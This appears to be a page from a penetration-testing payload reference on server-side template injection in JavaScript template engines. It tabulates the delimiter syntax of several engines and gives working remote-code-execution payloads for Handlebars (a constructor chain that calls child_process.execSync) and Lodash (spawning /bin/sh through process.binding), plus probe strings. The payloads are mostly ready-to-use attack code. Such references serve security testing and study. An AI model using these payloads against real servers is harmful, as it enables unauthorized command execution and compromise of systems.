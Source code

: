 # Server Side Template Injection - JavaScript

## Summary

- [Templating Libraries](#templating-libraries)
- [Handlebars](#handlebars)
    - [Handlebars - Command Execution](#handlebars---command-execution)
- [Lodash](#Lodash)
    - [Lodash - Basic Injection](#lodash---basic-injection)
    - [Lodash - Command Execution](#lodash---command-execution)
- [References](#references)

## Templating Libraries

| Template Name | Payload Format |
| ------------ | --------- |
| DotJS        | `{{= }}`  |
| DustJS       | `{}`      |
| EJS          | `<% %>`   |
| HandlebarsJS | `{{ }}`   |
| HoganJS      | `{{ }}`   |
| Lodash       | `{{= }}`  |
| MustacheJS   | `{{ }}`   |
| NunjucksJS   | `{{ }}`   |
| PugJS        | `#{}`     |
| TwigJS       | `{{ }}`   |
| UnderscoreJS | `<% %>`   |
| VelocityJS   | `#=set($X="")$X` |
| VueJS        | `{{ }}`   |


## Handlebars

[Official website](https://handlebarsjs.com/)
> Handlebars compiles templates into JavaScript functions.

### Handlebars - Command Execution

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

## Lodash

[Official website](https://lodash.com/docs/4.17.15)

### Lodash - Basic Injection

How to create a template:

```javascript
const _ = require('lodash');
string = "{{= username}}"
const options = {
  evaluate: /\{\{(.+?)\}\}/g,
  interpolate: /\{\{=(.+?)\}\}/g,
  escape: /\{\{-(.+?)\}\}/g,
};

_.template(string, options);
```

- **string:** The template string.
- **options.interpolate:** It is a regular expression that specifies the HTML *interpolate* delimiter.
- **options.evaluate:** It is a regular expression that specifies the HTML *evaluate* delimiter.
- **options.escape:** It is a regular expression that specifies the HTML *escape* delimiter.

For the purpose of RCE, the delimiter of templates is determined by the **options.evaluate** parameter.

```javascript
{{= _.VERSION}}
${= _.VERSION}
<%= _.VERSION %>


{{= _.templateSettings.evaluate }}
${= _.VERSION}
<%= _.VERSION %>
```

### Lodash - Command Execution

```js
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","id;ls"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```


## References

- [Exploiting Less.js to Achieve RCE - Jeremy Buis - July 1, 2021](https://web.archive.org/web/20210706135910/https://www.softwaresecured.com/exploiting-less-js/)
- [Handlebars template injection and RCE in a Shopify app - Mahmoud Gamal - April 4, 2019](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)